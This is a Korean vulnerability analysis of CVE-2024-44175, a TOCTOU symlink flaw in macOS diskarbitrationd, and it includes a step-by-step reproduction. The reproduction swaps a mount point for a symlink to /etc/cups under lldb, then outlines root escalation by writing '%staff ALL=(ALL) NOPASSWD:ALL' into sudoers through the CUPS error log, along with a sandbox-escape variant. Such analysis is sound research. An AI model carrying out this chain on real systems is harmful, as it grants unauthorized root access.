


## URL

[https://nvd.nist.gov/vuln/detail/CVE-2024-44175](https://nvd.nist.gov/vuln/detail/CVE-2024-44175)

## Target

- macOS 14.x < 14.7.1

## Explain

**CVE-2024-44175는 macOS의 `diskarbitrationd`**에서 발생한 **`TOCTOU`**(Time of Check to Time of Use) 취약점으로, **`symbolic link`**를 이용한 **sandbox escape** 및 **privilege escalation** 공격을 가능하게 만듭니다. 

이 취약점은 **UserFS**(사용자 모드 파일 시스템) 처리 과정에서 발생하며, 중요한 시스템 경로에 대해 검증이 제대로 이루어지지 않아서 발생합니다. 공격자는 이를 악용하여 시스템의 중요한 **디렉토리를 덮어쓸 수 있습니다.**

**`diskarbitrationd`**는 **KEXT**(커널 확장) 파일 시스템과 **UserFS** 파일 시스템을 구분하여 처리합니다. `diskarbitrationd`는 장치가 마운트될 때 UserFS인지 아닌지를 확인하고, 만약 UserFS 파일 시스템이라면 별도의 마운트 방법을 사용하여 마운트를 수행합니다. 그러나 이 과정에서 **옵션(-k)이 누락**되었고, 그 결과 **symbolic link**를 악용한 공격이 가능해집니다.

** diskarbitrationd: macOS에서 디스크 장치와 파일 시스템을 관리하는 데 사용되는 시스템 데몬*


### DAFileSystemMountWithArguments 함수

`diskarbitrationd`는 **UserFS** 파일 시스템을 마운트 하기 전에 먼저 **UserFS 지원 여부를 확인**합니다. 아래 코드에서 볼 수 있듯이, **UserFS**가 지원되면 `useUserFS` 변수가 `TRUE`로 설정됩니다.

```python
void DAFileSystemMountWithArguments( DAFileSystemRef filesystem,
                                     CFURLRef device,
                                     CFStringRef volumeName,
                                     CFURLRef mountpoint,
                                     uid_t userUID,
                                     gid_t userGID,
                                     CFStringRef preferredMountMethod,
                                     DAFileSystemCallback callback,
                                     void * callbackContext,
                                     ... )
{
    ...
    if ( fsImplementation != NULL )
    {
        ...
        if ( preferredMountMethod != NULL )
        {
            if ( useUserFS == FALSE )
            {
                if ( ( CFStringCompare( CFSTR("UserFS"), preferredMountMethod, kCFCompareCaseInsensitive ) == 0) &&
                     ( ___CFArrayContainsString( fsImplementation, CFSTR("UserFS") ) == TRUE ) )
                {
                    **useUserFS = TRUE;**
                }
            }
        }
    }
    ...
}
```

`useUserFS`가 `TRUE`로 설정되면, `diskarbitrationd`는 **UserFS** **API**를 사용하여 파일 시스템을 마운트합니다. 

```python
if ( useUserFS )
{
    CFArrayRef argumentList;
    argumentList = CFStringCreateArrayBySeparatingStrings( kCFAllocatorDefault, devicePath, CFSTR( "/" ) );
    if ( argumentList )
    {
        ...
        DAThreadExecute(__DAMountUserFSVolume, context, __DAMountUserFSVolumeCallback, context);
        CFRelease( argumentList );
    }
    else
    {
        status = EINVAL;
    }
    goto DAFileSystemMountErr;
}
```

**UserFS diskarbitrationd**는 **fskitd**를 호출하여 파일 시스템에 대한 **mount 명령을 실행**합니다. 마운트하기 위해 fskitd 호출하여 명령어를 처리할 때, ****symbolic link 변경 방지를 위한 **[nofollow/-k](https://man7.org/linux/man-pages/man8/mount.8.html)** 옵션이 사용되지 않았습니다. 이는 **symbolic link**에 대한 검증 및 처리가 없음을 의미하며, 공격자는 이를 이용해 **다른 경로로 마운트를 유도**할 수 있습니다. 또한 `fskitd`는 **root** 권한으로 실행되므로, 권한 상승(Privilege Escalation) 공격이 가능해집니다.

해당 취약점을 정리해보면 다음과 같습니다:

1. **mount 명령, `nofollow/-k` 옵션 누락**
2. **mount_lifs가 루트 권한으로 실행**되어, 호출자의 권한과 관계없이 루트 권한으로 동작

diskarbitrationd는 요청을 처리하는 `_DAServerSessionQueueRequest` 함수에서 mount point에 대해 `sandbox escape`와 `privilege escalation` 여부를 확인합니다. 

```c
kern_return_t _DAServerSessionQueueRequest( mach_port_t _session,
...
if ( path )
{
    status = sandbox_check_by_audit_token(_token, "file-mount", SANDBOX_FILTER_PATH | SANDBOX_CHECK_ALLOW_APPROVAL, path);
    if ( status )
    {
        status = kDAReturnNotPrivileged;
    }
    free( path );
}
...
if ( audit_token_to_euid( _token ) )
{
    if ( audit_token_to_euid( _token ) != DADiskGetUserUID( disk ) )
    {
        status = kDAReturnNotPrivileged;
    }
}
```

`sandbox_check_by_audit_token()`에서 mount 경로에 대해 샌드박스 확인 및 UID 등의 확인을 통한 검증이 이루어지지만, 이후 mount를 실행하는 단계에서 symbolic link 등으로 인해 경로가 변경될 가능성을 차단하지 못하는 구조적 문제 때문에 **TOCTOU(Time of Check to Time of Use)** 취약점이 발생합니다. 검증 후 symbolic link를 사용해 경로를 다른 위치로 변경하면, **sandbox escape**나 **LPE**를 수행할 수 있습니다. 

---

본 글에서는 위 취약한 내용을 기반으로 디버깅하고 LPE를 수행하고자 합니다.

**1. DMG 파일 생성**

먼저 **MS-DOS(FAT)** 파일 시스템을 사용하는 디스크 이미지를 생성합니다.

```bash
hdiutil create -fs "MS-DOS" -size 10MB -volname disk dos.dmg
```

**2. 디버거를 diskarbitrationd에 연결**

lldb를 이용해 **diskarbitrationd** 프로세스에 연결하고, `sandbox_check_by_audit_token` 함수에 브레이크포인트를 설정합니다.

```bash
(lldb) process attach --name "diskarbitrationd"
Process 113 stopped
* thread #1, stop reason = signal SIGSTOP
    frame #0: 0x000000019e3b3564 libsystem_kernel.dylib`__sigsuspend_nocancel + 8
libsystem_kernel.dylib`__sigsuspend_nocancel:
->  0x19e3b3564 <+8>:  b.lo   0x19e3b3584    ; <+40>
    0x19e3b3568 <+12>: pacibsp 
    0x19e3b356c <+16>: stp    x29, x30, [sp, #-0x10]!
    0x19e3b3570 <+20>: mov    x29, sp
Target 0: (diskarbitrationd) stopped.
Executable module set to "/usr/libexec/diskarbitrationd".
Architecture set to: arm64e-apple-macosx-.
(lldb) b sandbox_check_by_audit_token
Breakpoint 2: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x00000001aa59bc50
(lldb) c
Process 113 resuming
```

**3. Mount 작업 시작**

다른 터미널에서 디스크를 준비하고 마운트 작업을 시작합니다.

```bash
tree@forest ~ % mkdir mnt
tree@forest ~ % open dos.dmg   
tree@forest ~ % umount /Volumes/DISK
tree@forest ~ % diskutil list
...
/dev/disk5 (disk image):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        +10.5 MB    disk5
   1:                 DOS_FAT_32 DISK                    10.5 MB    disk5s1
tree@forest ~ % hdiutil attach -mountpoint mnt /dev/disk5s1
```

1.  **mnt** 디렉토리를 생성하여, 디스크를 마운트할 마운트 포인트로 사용합니다. 
2. **dos.dmg** 파일을 열어 디스크 이미지를 로드한 후, 자동으로 마운트된 볼륨 ‘**/Volumes/DISK’**를 **umount** 명령을 통해 해제합니다. 결과적으로 **diskarbitrationd**에서 사용할 수 있는 디스크 장치가 생성됩니다.
3. **diskutil list** 명령을 사용하여 디스크 리스트를 확인하면, **`disk5`**라는 장치가 새로 추가된 것을 볼 수 있습니다. **disk5**는 FDisk 파티션 스킴으로 구성된 10.5MB 크기의 디스크 이미지이고, 내부에 **disk5s1** 파티션이 **DOS_FAT_32** 포맷으로 존재합니다.
4. `hdiutil attach -mountpoint mnt /dev/disk5s1` 명령을 실행하여 **disk5s1** 파티션을 **mnt** 디렉토리에 마운트합니다. 

```python
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 2.1
    frame #0: 0x00000001aa59bc50 libsystem_sandbox.dylib`sandbox_check_by_audit_token
libsystem_sandbox.dylib`sandbox_check_by_audit_token:
->  0x1aa59bc50 <+0>:  pacibsp 
    0x1aa59bc54 <+4>:  sub    sp, sp, #0xb0
    0x1aa59bc58 <+8>:  stp    x20, x19, [sp, #0x90]
    0x1aa59bc5c <+12>: stp    x29, x30, [sp, #0xa0]
Target 0: (diskarbitrationd) stopped.
(lldb) finish
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = step out
    frame #0: 0x00000001005463b8 diskarbitrationd`___lldb_unnamed_symbol712 + 1488
diskarbitrationd`___lldb_unnamed_symbol712:
->  0x1005463b8 <+1488>: mov    w8, #0x9 ; =9 
    0x1005463bc <+1492>: movk   w8, #0xf8da, lsl #16
    0x1005463c0 <+1496>: str    x8, [sp, #0x30]
    0x1005463c4 <+1500>: mov    x20, x19
Target 0: (diskarbitrationd) stopped.
(lldb) b CFRelease
Breakpoint 3: where = CoreFoundation`CFRelease, address = 0x000000019e462edc
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #3, queue = 'DAServer', stop reason = breakpoint 3.1
    frame #0: 0x000000019e462edc CoreFoundation`CFRelease
CoreFoundation`CFRelease:
->  0x19e462edc <+0>:  pacibsp 
    0x19e462ee0 <+4>:  stp    x20, x19, [sp, #-0x20]!
    0x19e462ee4 <+8>:  stp    x29, x30, [sp, #0x10]
    0x19e462ee8 <+12>: add    x29, sp, #0x10
Target 0: (diskarbitrationd) stopped.
(lldb) finish
```

이 단계에서 **diskarbitrationd**가 관련 작업을 수행하며, 설정한 **breakpoint**에 도달하게 됩니다.

**4. symbolic link 생성 및 교체**

다음으로, `CFRelease` 호출 지점으로 이동합니다. 이 위치는 **sandbox escape**와 **privilege escalation** 검증 과정의 끝에 해당합니다. 이 시점에서 **diskarbitrationd**이 수행하는 모든 검증을 통과했으므로, 이제 사용중인 디렉토리를 루트가 소유한 위치를 가리키는 **symbolic link**로 교체할 수 있습니다. 

```bash
tree@forest ~ % rm -rf mnt
tree@forest ~ % ln -s /etc/cups/ mnt
```

이전에 생성했던 **mnt** 디렉토리를 제거하고, **`/etc/cups`**를 가리키는 `mnt`라는 이름의 **symbolic link**를 만듭니다.

```bash
(lldb) breakpoint disable
All breakpoints disabled. (2 breakpoints)
(lldb) c
Process 113 resuming
```

**lldb 디버거**에서 설정했던 **breakpoint**를 비활성화하여 **diskarbitrationd**가 계속 실행되도록 만듭니다.

```bash
tree@forest ~ % mount
/dev/disk4s1s1 on / (apfs, sealed, local, read-only, journaled)
devfs on /dev (devfs, local, nobrowse)
...
/dev/disk5s1 on /private/etc/cups (msdos, local, nodev, nosuid, noowners, noatime, fskit)
```

결과적으로 `/etc/cups` 디렉토리에 디스크 이미지가 마운트된 것을 확인할 수 있습니다.

이제 LPE를 수행할 수 있는 환경을 모두 구축했습니다!

**A. LPE**



이와 같은 흐름으로 LPE가 진행되며, 각 과정은 아래와 같습니다.

1. `/etc/cups` 디렉토리에 마운트한 후, **커스텀 cups-files.conf** 파일 생성
    - **ErrorLog**: 로그 파일 위치를 `/etc/sudoers.d/lpe`로 설정합니다.
    - **LogFilePerm**: 로그 파일의 권한을 `777`로 설정합니다.
2. `cupsctl` 명령으로 에러 로그 파일 생성 
    - 생성된 로그 파일에 아래 내용을 추가
    
    ```
    %staff ALL=(ALL) NOPASSWD:ALL
    ```
    
3. `LogFilePerm`을 `700`으로 변경한 후 `cupsctl` 명령 재실행
4. `sudo` 명령으로 root 권한 획득

**B. sandbox escape** 



1. 디스크 이미지에  터미널 `preference file` 삽입
    - `CommandString` 옵션을 사용해 터미널 실행 시 **LPE 스크립트를 실행**하도록 설정합니다.
2. 디스크를 사용자 **Preferences 디렉토리**에 마운트한 후 터미널을 실행합니다.
3. 터미널이 샌드박스 외부에서 실행되므로, 설정된 스크립트가 실행되어 LPE를 성공적으로 수행합니다.

이와 같이 diskarbitrationd의 TOCTOU 취약점은 symbolic link를 이용해 **sandbox escape**와 **LPE**를 가능하게 했습니다. 


해당 취약점은 아래 2가지 방법을 통해 수정되었습니다. 

1. **mount 명령어에 `nofollow` 옵션 추가**
    
    ```bash
    /sbin/mount_lifs -o ...,nofollow,...
    ```
    
    소스 코드에서 `nofollow` 옵션이 항상 추가되도록 변경되었습니다.
    
2. **fskitd에서 호출자의 사용자 ID 사용**
    
    fskitd가 호출자의 사용자 ID를 기반으로 권한을 검증하도록 개선되었습니다.
    
    ```
    token = [FSAuditToken new];
    token = [token tokenWithRuid:gDAConsoleUserUID];
    ```
    

Apple은 위와 같은 방안을 통해 macOS Sequoia 15.1 beta 2와 14.7에서 패치했습니다.

## Reference

https://www.kandji.io/blog/macos-audit-story-part1